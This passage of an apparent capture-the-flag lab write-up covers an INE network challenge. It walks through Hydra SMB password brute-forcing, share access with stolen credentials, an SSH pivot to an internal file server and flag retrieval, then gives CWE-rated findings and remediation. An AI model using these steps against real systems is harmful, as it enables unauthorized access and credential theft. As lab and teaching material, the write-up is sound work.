[DATA] max 1 task per 1 server, overall 1 task, 1009 login tries (l:1/p:1009), ~1009 tries per task
[DATA] attacking smb://target1.ine.local:445/
[445][smb] host: target1.ine.local   login: svc_backup   password: [REDACTED]
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2026-11-21 19:52:11
```



**Analysis:**
Hydra recovered the valid password for `svc_backup` in 1 second. The credential `svc_backup:[REDACTED]` allows authenticated SMB access.

### Step 3: Authenticated Backup Share Access & Flag 4 Retrieval

**Commands:**
```bash
smbclient //target1.ine.local/backup -U svc_backup
# Inside SMB Shell:
ls
get backup_notes.txt
# From Local Shell:
cat backup_notes.txt
```

**Terminal Output:**
```text
Password for [WORKGROUP\svc_backup]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat Nov 21 18:53:16 2026
  ..                                  D        0  Sat Nov 21 18:53:16 2026
  backup_notes.txt                    N      462  Sat Nov 21 18:53:16 2026

                1981311780 blocks of size 1024. 308598412 blocks available
smb: \> get backup_notes.txt
getting file \backup_notes.txt of size 462 as backup_notes.txt (451.1 KiloBytes/sec) (average 451.2 KiloBytes/sec)
smb: \> ^Z
[4]+  Stopped                 smbclient //target1.ine.local/backup -U svc_backup

┌──(root💀INE)-[~]
└─# cat backup_notes.txt
ASHCROFT LOGISTICS - BACKUP OPERATIONS (RESTRICTED)
===================================================
Backup token: Flag4_332c5932fc77447790ece3a3125aa077

Internal targets reached from this host during nightly jobs:
  FILE02  target2.ine.local
```



**Analysis & Critical Pivot Information:**
1. **Flag 4 Captured**: `Flag4_332c5932fc77447790ece3a3125aa077`.
2. **Network Pivot Target Disclosed**: The file explicitly states:
   `Internal targets reached from this host during nightly jobs: FILE02 target2.ine.local`
   Target `target2.ine.local` is isolated from the Kali workstation and only accessible from `target1`.

```text
Flag 4 Location: //target1.ine.local/backup/backup_notes.txt
Flag 4 Value:    Flag4_332c5932fc77447790ece3a3125aa077
Status:          Content extracted and visually verified.
```

---

## 12. Task 5 – Perimeter Host Compromise & Internal Network Pivot (Flag 5)

### Objective
*"Reach the internal file server."*

### Step 1: SSH Authentication into Perimeter Pivot Host

Because user account `svc_backup` is a valid Linux system user on `target1.ine.local`, the compromised credentials (`svc_backup:[REDACTED]`) grant interactive shell access over OpenSSH (port 22).

**Command:**
```bash
ssh svc_backup@target1.ine.local
```

**Observed Prompt:**
```text
svc_backup@target1:~$
```

### Step 2: Internal Target Reconnaissance & Share Enumeration

From the interactive shell on `target1`, direct network scanning tools like `nmap` were not installed:
```text
svc_backup@target1:~$ nmap -sV -p- target2.ine.local
-bash: nmap: command not found
```

Falling back to native `smbclient` allows probing internal file services directly.

**Command:**
```bash
svc_backup@target1:~$ smbclient -L target2.ine.local -N
```

**Terminal Output:**
```text
        Sharename       Type      Comment
        ---------       ----      -------
        dropbox         Disk      Internal Dropbox
        sql-backups     Disk      SQL Backups (Restricted)
        IPC$            IPC       IPC Service (FILE02 Internal Files)
SMB1 disabled -- no workgroup available
```



**Analysis:**
Internal server `target2.ine.local` hosts:
- `dropbox`: Internal Dropbox (Guest-readable)
- `sql-backups`: SQL Backups (Restricted)
- `IPC$`: IPC Service

### Step 3: Accessing Internal `dropbox` Share & Flag 5 Retrieval

**Commands:**
```bash
svc_backup@target1:~$ smbclient -N //target2.ine.local/dropbox
# Inside SMB Shell:
smb: \> ls
smb: \> get README.txt
smb: \> exit
# From Pivot Shell:
svc_backup@target1:~$ cat README.txt
```

**Terminal Output:**
```text
svc_backup@target1:~$ smbclient -N //target2.ine.local/dropbox
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat Nov 21 13:23:17 2026
  ..                                  D        0  Sat Nov 21 13:23:17 2026
  README.txt                          N      330  Sat Nov 21 13:23:17 2026

                1981311780 blocks of size 1024. 308748956 blocks available
smb: \> get README.txt
getting file \README.txt of size 330 as README.txt (322.2 KiloBytes/sec) (average 322.3 KiloBytes/sec)
smb: \> exit
```



```text
svc_backup@target1:~$ cat README.txt
FILE02 - DROPBOX (internal, guest-readable)
===========================================
Temporary drop location for the internal segment.

Internal token: Flag5_acecee2873d74e099d60dbf2ad27946d

DB maintenance (do not distribute):
  restricted share : sql-backups
  account          : db_admin
  password         : [REDACTED]
```



**Analysis & Intelligence Harvested:**
1. **Flag 5 Captured**: `Flag5_acecee2873d74e099d60dbf2ad27946d`.
2. **Database Administrative Credentials Exposed**: The file exposed plaintext credentials for database administration:
   - Account: `db_admin`
   - Password: `[REDACTED]`
   - Target Share: `sql-backups`

```text
Flag 5 Location: //target2.ine.local/dropbox/README.txt (Accessed via Pivot)
Flag 5 Value:    Flag5_acecee2873d74e099d60dbf2ad27946d
Status:          Content extracted and visually verified.
```

---

## 13. Task 6 – Authenticated Internal Database Share Compromise (Flag 6)

### Objective
*"Break into the restricted database share."*

### Step: Authenticated Access to `sql-backups` Share & Flag 6 Exfiltration

Operating from the pivot session on `target1`, authenticate to `//target2.ine.local/sql-backups` using the harvested administrative credentials.

**Commands:**
```bash
svc_backup@target1:~$ smbclient //target2.ine.local/sql-backups -U db_admin
# Inside SMB Shell:
smb: \> ls
smb: \> get db_export.txt
smb: \> ^Z
# From Pivot Shell:
svc_backup@target1:~$ cat db_export.txt
```

**Terminal Output:**
```text
svc_backup@target1:~$ smbclient //target2.ine.local/sql-backups -U db_admin
Password for [ASHCROFT\db_admin]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat Nov 21 13:23:17 2026
  ..                                  D        0  Sat Nov 21 13:23:17 2026
  db_export.txt                       N      170  Sat Nov 21 13:23:17 2026

                1981311780 blocks of size 1024. 308818784 blocks available
smb: \> get db_export.txt
getting file \db_export.txt of size 170 as db_export.txt (166.0 KiloBytes/sec) (average 166.0 KiloBytes/sec)
smb: \> ^Z
[1]+  Stopped                 smbclient //target2.ine.local/sql-backups -U db_admin
svc_backup@target1:~$ cat db_export.txt
FILE02 - SQL BACKUPS (RESTRICTED, db_admin only)
=================================================
Database export integrity token: Flag6_42e42cb3a46f42ff9d1f0407b329a328
```



**Analysis:**
Authenticated access to `sql-backups` was granted immediately upon submitting `db_admin`'s credentials. Exfiltration of `db_export.txt` yielded the final challenge flag.

```text
Flag 6 Location: //target2.ine.local/sql-backups/db_export.txt (Accessed via Pivot)
Flag 6 Value:    Flag6_42e42cb3a46f42ff9d1f0407b329a328
Status:          Content extracted and visually verified.
```

---

## 14. Results and Verified Flags

All six challenge objectives were completed successfully. Every flag was extracted and verified character-by-character from the original terminal captures:

| Objective | Target Host | Protocol & Access Vector | File / Service Location | Verified Flag Value | Validation Status |
| :---: | :---: | :--- | :--- | :--- | :---: |
| **Flag 1** | `target1.ine.local` | TCP 13337 (Source P53) | `NETDIAG v2.1` Diagnostic Channel | `Flag1_36b0445d522a4016b2a9ffb549134267` | Visually Verified |
| **Flag 2** | `target1.ine.local` | UDP 161 (SNMPv2c) | OID `.1.3.6.1.4.1.8072.1.3.2.3.1.1...` | `Flag2_d8644705c2b44db4afd72e233835742a` | Visually Verified |
| **Flag 3** | `target1.ine.local` | TCP 445 (SMB Guest) | `//target1/public/notice_to_staff.txt` | `Flag3_5ee56c901a7f4754bc7d4f2ab3a7a927` | Visually Verified |
| **Flag 4** | `target1.ine.local` | TCP 445 (SMB Auth) | `//target1/backup/backup_notes.txt` | `Flag4_332c5932fc77447790ece3a3125aa077` | Visually Verified |
| **Flag 5** | `target2.ine.local` | TCP 445 (Pivot SMB) | `//target2/dropbox/README.txt` | `Flag5_acecee2873d74e099d60dbf2ad27946d` | Visually Verified |
| **Flag 6** | `target2.ine.local` | TCP 445 (Pivot SMB) | `//target2/sql-backups/db_export.txt` | `Flag6_42e42cb3a46f42ff9d1f0407b329a328` | Visually Verified |

---

## 15. Consolidated Vulnerability Findings

### Summary Matrix

| ID | Vulnerability Finding | Affected Host & Port | Severity Rating | Primary CWE Reference | Confirmed Impact |
| :---: | :--- | :--- | :---: | :--- | :--- |
| **VULN-01** | Insecure Source-Port Based Access Controls | `target1` (13337/tcp) | **Medium** | [CWE-284](https://cwe.mitre.org/data/definitions/284.html)<br>[CWE-290](https://cwe.mitre.org/data/definitions/290.html) | Packet filtering rule permitted arbitrary client connections spoofing source port 53, exposing internal diagnostics. |
| **VULN-02** | Weak SNMP Community String & Unrestricted MIB Read Access | `target1` (161/udp) | **High** | [CWE-200](https://cwe.mitre.org/data/definitions/200.html)<br>[CWE-522](https://cwe.mitre.org/data/definitions/522.html) | Trivial community string (`mngt`) allowed unauthenticated MIB walking, exposing internal configuration and file paths. |
| **VULN-03** | Excessive Anonymous / Guest Share Permissions | `target1` & `target2` (445/tcp) | **Medium** | [CWE-276](https://cwe.mitre.org/data/definitions/276.html)<br>[CWE-732](https://cwe.mitre.org/data/definitions/732.html) | World-readable SMB shares (`public`, `dropbox`) allowed unauthenticated actors to harvest operational notes and credentials. |
| **VULN-04** | Weak Password on Service Account (`svc_backup`) | `target1` (445/22/tcp) | **High** | [CWE-521](https://cwe.mitre.org/data/definitions/521.html) | Short dictionary password cracked in 1 second, granting host-level shell access and network pivot capability. |
| **VULN-05** | Plaintext Administrative Credentials in Shared Documentation | `target2` (445/tcp) | **High** | [CWE-312](https://cwe.mitre.org/data/definitions/312.html)<br>[CWE-522](https://cwe.mitre.org/data/definitions/522.html) | `README.txt` stored plaintext credentials for `db_admin`, facilitating complete compromise of database backup files. |

---

### Detailed Findings Breakdown

#### VULN-01: Insecure Source-Port Based Access Controls
- **CWE Identifier**: [CWE-284: Improper Access Control](https://cwe.mitre.org/data/definitions/284.html) & [CWE-290: Authentication Bypass by Spoofing](https://cwe.mitre.org/data/definitions/290.html)
- **Severity Rating**: **Medium** (CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:L/I:N/A:N — Base Score: 5.3)
- **Affected System**: `target1.ine.local` (Port 13337/tcp).
- **Observed Evidence**: The `NETDIAG` service rejected connections from high client ports but accepted any inbound connection originating from source port 53 without host authentication.
- **Remediation**: Remove reliance on client source ports for access control. Implement IPsec, TLS client certificate authentication, or strong IP-based access control lists (ACLs) bound to verified management stations.

#### VULN-02: Weak SNMP Community String & Unrestricted MIB Read Access
- **CWE Identifier**: [CWE-200: Exposure of Sensitive Information to an Unauthorized Actor](https://cwe.mitre.org/data/definitions/200.html) & [CWE-522: Insufficiently Protected Credentials](https://cwe.mitre.org/data/definitions/522.html)
- **Severity Rating**: **High** (CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N — Base Score: 7.5)
- **Affected System**: `target1.ine.local` (Port 161/udp).
- **Observed Evidence**: Community string `mngt` was cracked via `snmp-brute` in under 2 seconds. The daemon returned custom `extend` directives containing sensitive file references.
- **Remediation**: Migrate from legacy SNMPv1/v2c to SNMPv3 with `authPriv` mode (SHA-256 authentication and AES-256 encryption). Restrict UDP port 161 via firewall to authorized Network Management Stations (NMS).

#### VULN-03: Excessive Anonymous / Guest Share Permissions
- **CWE Identifier**: [CWE-276: Incorrect Default Permissions](https://cwe.mitre.org/data/definitions/276.html) & [CWE-732: Incorrect Permission Assignment for Critical Resource](https://cwe.mitre.org/data/definitions/732.html)
- **Severity Rating**: **Medium** (CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:L/I:N/A:N — Base Score: 5.3)
- **Affected Systems**: `target1.ine.local` (`public`) & `target2.ine.local` (`dropbox`).
- **Observed Evidence**: Samba permitted guest null sessions (`-N`) to read files from network shares without authentication.
- **Remediation**: Disable guest access in Samba configuration (`map to guest = Never` and `guest ok = no`). Require valid user authentication for all shared resources.

#### VULN-04: Weak Password on Service Account (`svc_backup`)
- **CWE Identifier**: [CWE-521: Weak Password Requirements](https://cwe.mitre.org/data/definitions/521.html)
- **Severity Rating**: **High** (CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H — Base Score: 9.8)
- **Affected System**: `target1.ine.local` (445/tcp, 22/tcp).
- **Observed Evidence**: Account `svc_backup` utilized a common dictionary password cracked within 1,009 attempts. Because `svc_backup` had valid interactive shell rights, the credential granted full host access and SSH pivoting capability.
- **Remediation**: Enforce strong password complexity policies (minimum 16 characters with mixed entropy). Disable interactive shell logins for service accounts (`/sbin/nologin` or `/bin/false` in `/etc/passwd`).

#### VULN-05: Plaintext Administrative Credentials in Shared Documentation
- **CWE Identifier**: [CWE-312: Cleartext Storage of Sensitive Information](https://cwe.mitre.org/data/definitions/312.html) & [CWE-522: Insufficiently Protected Credentials](https://cwe.mitre.org/data/definitions/522.html)
- **Severity Rating**: **High** (CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N — Base Score: 7.5)
- **Affected System**: `target2.ine.local` (`//target2/dropbox/README.txt`).
- **Observed Evidence**: Maintenance documentation left in a guest-accessible directory disclosed administrative credentials for `db_admin`.
- **Remediation**: Implement enterprise secrets management solutions (e.g., HashiCorp Vault, CyberArk). Prohibit cleartext credential storage across all file shares, repositories, and documentation.

---

## 16. Security Lessons Learned

1. **Source-Port Filtering is Ineffective Security**: Firewalls or services that base trust on client source ports (e.g., port 53 or 123) are easily bypassed by any client capable of binding privileged ports.
2. **SNMPv1/v2c Community Strings are Equivalent to Cleartext Passwords**: Abbreviated words like `mngt` provide zero resistance against dictionary attacks, exposing internal configurations.
3. **Internal Segmentation Fails Without Host Hardening**: Isolating `target2.ine.local` from the perimeter was rendered ineffective once the perimeter host `target1` was compromised due to weak service account passwords.
4. **Service Accounts Must Not Have Interactive Shells**: The `svc_backup` service account possessed an active `/bin/bash` shell and SSH access, transforming a file share compromise into an interactive lateral pivot.
5. **Cleartext Password Sharing Remains a Critical Risk**: Plaintext credentials placed in shared folders (`README.txt`) completely bypass role-based access control.

---

## 17. Prioritized Remediation Roadmap

```text
+---------------------------------------------------------------------------------------------------+
|                                  PRIORITIZED REMEDIATION ROADMAP                                  |
+---------------------------------------------------------------------------------------------------+
|                                                                                                   |
|  [Phase 1: Immediate Containment (Within 24 Hours)]                                               |
|   - Reset compromised passwords for 'svc_backup' and 'db_admin' to 20+ character random strings.  |
|   - Remove 'README.txt' containing plaintext credentials from '//target2/dropbox'.                |
|   - Disable guest access ('guest ok = no') across all Samba shares on target1 and target2.        |
|                                                                                                   |
|  [Phase 2: Access Control & Service Hardening (Within 7 Days)]                                    |
|   - Set shell for 'svc_backup' to /sbin/nologin; restrict SSH access via AllowUsers/AllowGroups.  |
|   - Upgrade SNMP daemon to SNMPv3 with authPriv encryption; terminate SNMPv1/v2c.                 |
|   - Replace source-port based filtering on NETDIAG with mutual TLS (mTLS) or bastion firewall.    |
|                                                                                                   |
|  [Phase 3: Strategic Architecture Hardening (Within 30 Days)]                                     |
|   - Deploy enterprise secrets management vault to eliminate hardcoded operational credentials.    |
|   - Enforce network microsegmentation and strict egress filtering between perimeter and internal. |
|   - Implement automated centralized SIEM alerting for RID cycling and brute-force events.         |
|                                                                                                   |
+---------------------------------------------------------------------------------------------------+
```

---

## 18. Evidence and Screenshot Index

All primary visual evidence has been organized chronologically from initial port scanning through internal database share compromise:

| # | Filename | Original Source File | Description & Key Evidenced Findings |
| :---: | :--- | :--- | :--- |
| **01** | `01-lab-overview.png` | `Screenshot 2026-11-17 213134.png` | INE challenge dashboard displaying 6 of 6 flags captured, objectives, and lab topology. |
| **02** | `02-nmap-tcp-port-scan.png` | `Screenshot 2026-11-21 182910.png` | Full TCP sweep showing open ports 22, 139, 199, 445, and filtered 13337 NETDIAG daemon. |
| **03** | `03-flag1-diagnostic-service-source-port-bypass.png` | `Screenshot 2026-11-21 182939.png` | Source port 53 bypass using `ncat -p 53`, NETDIAG banner, and Flag 1 token extraction. |
| **04** | `04-snmp-port-scan-and-community-bruteforce.png` | `Screenshot 2026-11-21 193312.png` | Nmap UDP 161 scan and `snmp-brute` cracking community string `mngt`. |
| **05** | `05-flag2-snmpwalk-oid-enumeration.png` | `Screenshot 2026-11-21 193340.png` | Numeric OID tree walk discovering `/etc/snmp/.flag2` and recovering Flag 2 token. |
| **06** | `06-smb-unauthenticated-share-enumeration.png` | `Screenshot 2026-11-21 193524.png` | Null-session share listing (`smbclient -L -N`) revealing `public`, `backup`, and `IPC$`. |
| **07** | `07-flag3-public-share-file-retrieval.png` | `Screenshot 2026-11-21 193544.png` | Accessing `public` share, downloading `notice_to_staff.txt`, and extracting Flag 3. |
| **08** | `08-enum4linux-target-and-workgroup-info.png` | `Screenshot 2026-11-21 195545.png` | Enum4linux initial scan output identifying workgroup `ASHCROFT` and target parameters. |
| **09** | `09-enum4linux-user-enumeration-svc-backup.png` | `Screenshot 2026-11-21 195638.png` | Enum4linux SID/RID user cycling discovering `svc_backup` (RID 1003). |
| **10** | `10-hydra-smb-password-bruteforce-svc-backup.png` | `Screenshot 2026-11-21 195710.png` | Hydra online brute-force cracking `svc_backup` password (redacted in published copy). |
| **11** | `11-flag4-authenticated-backup-share-retrieval.png` | `Screenshot 2026-11-21 195732.png` | Authenticated `backup` share access, downloading `backup_notes.txt`, and extracting Flag 4. |
| **12** | `12-pivot-host-ssh-and-internal-share-enumeration.png` | `Screenshot 2026-11-21 200552.png` | SSH session on `target1` as `svc_backup`; enumerating internal shares on `target2.ine.local`. |
| **13** | `13-internal-dropbox-share-download.png` | `Screenshot 2026-11-21 200613.png` | Accessing guest `dropbox` share on `target2` and downloading `README.txt`. |
| **14** | `14-flag5-internal-token-and-db-creds.png` | `Screenshot 2026-11-21 200634.png` | Reading `README.txt` to capture Flag 5 and harvest `db_admin` credentials (redacted). |
| **15** | `15-flag6-restricted-database-share-retrieval.png` | `Screenshot 2026-11-21 201242.png` | Authenticated access to `sql-backups` as `db_admin`, downloading `db_export.txt`, Flag 6. |

---

## 19. References

- [MITRE ATT&CK: Network Service Discovery (T1046)](https://attack.mitre.org/techniques/T1046/)
- [MITRE ATT&CK: Remote Services: SMB/Windows Admin Shares (T1021.002)](https://attack.mitre.org/techniques/T1021/002/)
- [MITRE ATT&CK: Remote Services: SSH (T1021.004)](https://attack.mitre.org/techniques/T1021/004/)
- [MITRE ATT&CK: Brute Force: Password Guessing (T1110.001)](https://attack.mitre.org/techniques/T1110/001/)
- [MITRE ATT&CK: Unsecured Credentials: Credentials in Files (T1552.001)](https://attack.mitre.org/techniques/T1552/001/)
- [CWE-284: Improper Access Control](https://cwe.mitre.org/data/definitions/284.html)
- [CWE-290: Authentication Bypass by Spoofing](https://cwe.mitre.org/data/definitions/290.html)
- [CWE-200: Exposure of Sensitive Information to an Unauthorized Actor](https://cwe.mitre.org/data/definitions/200.html)
- [CWE-276: Incorrect Default Permissions](https://cwe.mitre.org/data/definitions/276.html)
- [CWE-521: Weak Password Requirements](https://cwe.mitre.org/data/definitions/521.html)
- [CWE-312: Cleartext Storage of Sensitive Information](https://cwe.mitre.org/data/definitions/312.html)
- [Net-SNMP Documentation](http://www.net-snmp.org/)
- [Samba Official Security Documentation](https://www.samba.org/samba/docs/)
